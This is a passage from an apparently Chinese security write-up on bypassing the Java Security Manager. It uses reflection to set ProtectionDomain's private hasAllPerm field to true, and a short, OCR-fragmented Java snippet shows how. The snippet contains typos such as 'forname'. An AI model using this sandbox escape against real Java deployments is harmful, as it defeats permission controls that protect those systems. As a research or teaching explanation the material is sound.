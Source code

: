 即反射权限和访问私有成员的权限，也就是说可能有很多种反射的姿势可以利用

这里我们需要通过反射修改 Java Security Manager 检查的 `ProtectionDomain`，其权限原本写在 `security.policy`中，没有写代表没有权限，但是我们可以通过反射去修改其属性，让其拥有权限

具体原理参考博客，这里直接给实现

在 `java.security.ProtectionDomain`中，有这么一个变量： `java.security.ProtectionDomain#hasAllPerm`

![图片](assets/1709279808-b101a602110026c047ec7143e4bc3100.png)

其用于标记该类是否拥有所有权限，我们现在的任务就是通过反射将其修改为 true，其实现方式若如下：

```plain
// 1. 获取类
Class
 clz
=

Class
.
forname
(
"xxx"
);
// 2. 获取其 ProtectionDomain
// 3. 通过反射获取 ProtectionDoamin 的 hasAllPerm 字段
Field
 field
=
 clz
.
getProtectionDomain
().
getClass
().
getDeclaredField
(
"hasAllPerm"
);
// 4. 设置其可修改
field
.
setAccessible
(
true
);
// 5. 将 hasAllPerm 设置为 true
field
.
set
(
clz
.
getProtectionDomain
(),

true
);
```

